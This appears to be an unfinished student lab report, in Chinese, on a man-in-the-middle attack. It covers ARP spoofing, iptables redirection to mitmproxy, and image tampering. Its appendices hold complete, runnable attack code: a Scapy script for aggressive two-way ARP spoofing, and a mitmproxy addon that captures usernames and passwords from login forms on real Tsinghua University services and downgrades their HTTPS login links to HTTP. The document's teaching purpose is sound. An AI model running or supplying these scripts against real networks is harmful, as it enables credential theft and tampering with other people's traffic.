




# 实验二：中间人攻击

- 2015011278 谭闻德：编写及测试攻击脚本、撰写测试分析报告
- 2016010981 陈晟祺：修改攻击脚本、利用攻击脚本进行攻击测试、修改测试分析报告

## 实验原理

通过发送ARP欺骗包（包括回复包以及无偿ARP广播包），可以假冒IP地址，从而截获其他主机发给相应IP地址的流量。通过同时欺骗主机和网关，可以截获主机与网关的双向流量（可能包含密码等敏感信息），从而获知主机上网情况。

进一步地，通过合理配置iptables，将主机到网关的流量转发到配置好的mitmproxy，甚至可以对主机和HTTP网站实现中间人攻击，篡改受害者浏览到的网页内容。

此外，通过自签发的证书，还可以对安全意识不高的用户实施对于HTTPS网站的中间人攻击。

## 实验环境

本次实验在两套实验环境下进行，分别为虚拟机环境和真实环境。

### 虚拟机环境

为了方便编写、测试和验证攻击脚本，我们使用VMware ESXi配置了虚拟机环境。虚拟机中有三台主机，分别为：网关`nsl-gateway`、攻击者`nsl-attacker`以及受害者`nsl-victim`。它们通过虚拟适配器接入虚拟交换机，实验中我们确保虚拟适配器和虚拟交换机的配置与真实网卡和交换机的配置尽量一致。

### 真实环境

为了测试本攻击在真实无线网络环境下的效果，本实验还使用TL-WDR7500无线路由器配置了一个模拟真实环境的无线网络。为了说明攻击效果，在攻击时，我们没有对无线路由器做任何特殊处理，而是仅按照正常配置来将其接入互联网。攻击者通过有线网络连接路由器，受害者连接路由器提供的无线网络。

## 实验过程

本次实验分为两个阶段：双向ARP欺骗以及中间人攻击。

### 双向ARP欺骗

TODO

即修改`sysctl.conf`，加入如下配置：

```
net.ipv4.ip_forward=1
```

### 中间人攻击

TODO

使用如下命令配置iptables：

```bash
iptables -A FORWARD -j ACCEPT
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
```

首先允许转发，然后通过目标地址NAT，将所有HTTP流量（一般是80端口的流量）转发到本机的mitmproxy，以便进行下一步攻击。

接下来运行mitmproxy即可看到受害者的每一个HTTP会话，如图所示。

TODO: mitmproxy的图

通过撰写脚本（请见附录2），可以自动化地抓取HTTP请求中的用户名和密码，以及修改HTTP响应的内容。

本实验修改了HTTP响应中的图片内容，将彩色的图片转换为纯黑白点阵图片，如下图所示。







同时，我们发现微信中的部分图片同样使用未加密的HTTP传输，也能够被篡改：





此外，由于缓存作用，在攻击停止后一段时间内，若受害者不手动强制刷新缓存，图片仍然保持为纯黑白。

## 结论

访问未加密的HTTP网站是一种十分危险的行为，TODO。

虽然在实验中我们观察到本次实验使用的无线路由器有一定的ARP欺骗防御功能，但是在激进的攻击方式（如附录1中代码）下，这样的防御几乎是徒劳的。如果网关甚至没有任何ARP欺骗防御功能，那么攻击更加顺利。

## 附录

### 附录1 ARP欺骗脚本

```python
#!/usr/bin/env python3
import os
import time

# Send an arbitray ICMP request to get IP and MAC address of the default gateway.
p = srp1(Ether()/IP(dst='1.2.3.4', ttl=0)/ICMP()/'abcdefgh')

gw_ip = p.payload.src
gw_mac = p.src
my_ip = p.payload.dst
my_mac = p.dst

def log(*s):
  print(time.asctime() + ":", *s)

log('My IP:', my_ip)
log('My MAC:', my_mac)
log('Gateway IP:', gw_ip)
log('Gateway Real MAC:', gw_mac)

def packet_cb(p):
  p = p.payload
  if p.psrc == my_ip or p.hwsrc == my_mac: # do not spoof myself
    return
  if p.psrc == p.pdst and p.psrc == gw_ip: # real gateway's gratuitous ARP
    do_reply(gw_ip, 'ff:ff:ff:ff:ff:ff') # gratuitous ARP
    return
  if p.op != 1: # bypass queries other than who-has
    return
  if p.pdst == gw_ip:
    log('{} at {} is requesting gateway\'s MAC...'.format(p.psrc, p.hwsrc))
    do_reply(gw_ip, p.hwsrc, p.psrc) # spoof victim
    do_reply(p.psrc, gw_mac, gw_ip) # spoof gateway
  elif p.psrc == gw_ip:
    log('Gateway is requesting {}\'s MAC...'.format(p.pdst))
    do_reply(p.pdst, p.hwsrc, p.psrc) # spoof gateway
    do_reply(gw_ip, 'ff:ff:ff:ff:ff:ff') # gratuitous ARP, spoof everyone else

def do_reply(fake_ip, dst, pdst=''):
  if dst == 'ff:ff:ff:ff:ff:ff':
    # gratuitous ARP
    hwdst = my_mac
    pdst = fake_ip
  else:
    hwdst = dst
  packet = Ether(dst=dst)/ARP(op='is-at',
                       hwsrc=my_mac,
                       psrc=fake_ip,
                       hwdst=hwdst,
                       pdst=pdst)
  log('Sending packet:')
  packet.show()
  sendp(packet * 3)

def main():
  if os.fork():
    do_packet()
  else:
    do_gratuitous()

def do_packet():
  log('Doing packet')
  while True:
    receive = sniff(filter='arp', count=1000, prn=packet_cb)

def do_gratuitous():
  log('Doing gratuitous')
  while True:
    do_reply(gw_ip, 'ff:ff:ff:ff:ff:ff') # gratuitous ARP
    time.sleep(5)


main()
exit()
```

使用方法：

```bash
sudo scapy -c arp.py
```

### 附录2 中间人攻击脚本

```python
#!/usr/bin/env python3
import urllib.parse
import io
import re
from mitmproxy import ctx
from PIL import Image

PASSWORD_REGEXS = [
  ('learn', re.compile('userid=(?P<username>.+)&userpass=(?P<password>.+)&submit')),
  ('zhjwxk', re.compile('j_username=(?P<username>.+)&j_password=(?P<password>.+)&captchaflag')),
  ('mail', re.compile('uid=(?P<username>.+)&password=(?P<password>.+)&domain'))
]

URL_TRANSFORMS = [
  (b'https://learn.tsinghua.edu.cn/MultiLanguage/lesson/teacher/loginteacher.jsp', b'http://learn.tsinghua.edu.cn/MultiLanguage/lesson/teacher/loginteacher.jsp'),
  (b'https://zhjwxk.cic.tsinghua.edu.cn:443/j_acegi_formlogin_xsxk.do', b'http://zhjwxk.cic.tsinghua.edu.cn/j_acegi_formlogin_xsxk.do'),
  (b'https://mails.tsinghua.edu.cn/coremail/index.jsp', b'http://mails.tsinghua.edu.cn/coremail/index.jsp'),
  (b'https://mail.tsinghua.edu.cn/coremail/index.jsp', b'http://mail.tsinghua.edu.cn/coremail/index.jsp'),
  (b'twd15,15', b'equipment,15')
]

class Trans:
  def __init__(self):
    pass
  
  def request(self, flow):
    try:
      flow.request.query['tp'] = 'jpeg'
    except Exception as e:
      pass
    try:
      for name, regex in PASSWORD_REGEXS:
        m = regex.search(flow.request.text)
        if not m:
          continue
        print(name)
        print('  Username: ', urllib.parse.unquote_plus(m.group('username')))
        print('  Password: ', urllib.parse.unquote_plus(m.group('password')))
    except Exception as e:
      pass

  def response(self, flow):
    flow.response.headers['x-twd2-message'] = 'You are hacked!'
    for old, new in URL_TRANSFORMS:
      try:
        flow.response.content = flow.response.content.replace(old, new)
      except Exception as e:
        pass
    try:
      stream = io.BytesIO(flow.response.content)
      img = Image.open(stream)
      img = img.convert('1')
      stream = io.BytesIO()
      img.save(stream, format='PNG')
      flow.response.content = stream.getvalue()
      print('image!')
    except Exception as e:
      repr(e)


addons = [
  Trans()
]
```

使用方法：

```bash
mitmdump --mode transparent --showhost -s trans.py -q
```